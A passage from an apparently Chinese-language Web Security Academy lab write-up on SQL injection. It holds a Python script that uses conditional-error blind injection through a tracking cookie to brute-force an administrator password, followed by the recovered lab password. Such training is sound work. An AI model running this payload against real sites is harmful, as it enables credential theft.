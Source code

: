     urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    cookies = {
        'TrackingId': "LqcMUIEREyrxNatY'||(SELECT CASE WHEN SUBSTR(password,1,1)='' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'",
        'session': 'NW9pXJXJeKgB5JmJ14U4EOhoz6T4aZQ2',
    }

    headers = {
        'Host': '0a42006e03aa9e8d80150876003e0090.web-security-academy.net',
    }

    params = {
        'productId': '3',
    }

    payload_list = ''

    for i in range(ord('a'), ord('z') + 1):
        payload_list += chr(i)

    for i in range(ord('A'), ord('Z') + 1):
        payload_list += chr(i)

    for i in range(ord('0'), ord('9') + 1):
        payload_list += chr(i)

    ans = ''

    for i in range(1, 20 + 1):
        for j in payload_list:
            cookies['TrackingId'] = f"LqcMUIEREyrxNatY'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{j}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            
            response = requests.get(
                'https://0a42006e03aa9e8d80150876003e0090.web-security-academy.net/product',
                params=params,
                cookies=cookies,
                headers=headers,
                verify=False,
            )

            print(f"\rIndex = {i}, Payload = {j}   ", end='')

            if response.status_code == 500:
                ans += j
                print()
                print(ans)
                break

    print(f"Password: {ans}")
    ```
6. 取得 administrator 密碼：t7azel0rda4zj943749q 並登入完成此 Lab
:::

##### 透過詳細的 SQL 錯誤訊息提取敏感資料

資料庫的錯誤配置有時會導致詳細的錯誤訊息。這些訊息可能為攻擊者提供有用的資訊。例如，考慮以下錯誤訊息，該訊息在將單引號注入 `id` 參數後出現：
